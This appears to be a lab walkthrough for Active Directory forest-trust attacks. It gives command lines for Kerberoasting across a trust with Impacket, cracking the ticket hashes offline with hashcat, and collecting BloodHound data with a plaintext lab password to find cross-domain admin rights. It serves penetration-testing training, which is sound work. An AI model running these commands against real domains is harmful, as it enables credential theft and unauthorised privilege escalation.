 In an Active Directory environment, a **forest trust** allows authentication between domains in different forests. If misconfigured, attackers can exploit these trusts to gain unauthorized access.

---
## **1. Kerberoasting Across a Forest Trust**

### **Step 1: Using Impacket’s `GetUserSPNs.py`**

To extract **Service Principal Names (SPNs)** and perform Kerberoasting, use `GetUserSPNs.py` with the `-target-domain` flag.

```bash
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

### **Step 2: Requesting a TGS Ticket**

We now request a **Ticket Granting Service (TGS) ticket**, which can be cracked offline.
```bash
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

### **Step 3: Cracking the TGS Hash with Hashcat**

Once we obtain the TGS hash, we can crack it offline using **Hashcat**.
```bash
hashcat -m 13100 -a 0 <HASH_FILE> /usr/share/wordlists/rockyou.txt --force
```

---

## **2. Hunting Foreign Group Membership Using BloodHound**

In a **bidirectional forest trust**, a privileged user from one domain may be a **member of the built-in Administrators group** in the trusted domain. We use **BloodHound-python** to enumerate this.

### **Step 1: Modify `/etc/resolv.conf` for DNS Resolution**

Edit `/etc/resolv.conf` to include the **target domain’s nameserver**.

Add the following lines (example for `INLANEFREIGHT.LOCAL`):
```bash
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
If targeting `FREIGHTLOGISTICS.LOCAL`:
```bash
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

### **Step 2: Running BloodHound-python**

Run **BloodHound-python** to collect Active Directory data.

#### **Command for INLANEFREIGHT.LOCAL:**
```bash
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```
Command for FREIGHTLOGISTICS.LOCAL:
```bash
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

### **Step 3 Identifying Foreign Group Membership**

1. Open **BloodHound GUI**.
2. Click **Analysis** > **Users with Foreign Domain Group Membership**.
3. Select **Source Domain** as `INLANEFREIGHT.LOCAL`.
4. Look for **privileged users** from `INLANEFREIGHT.LOCAL` with administrative rights in `FREIGHTLOGISTICS.LOCAL`.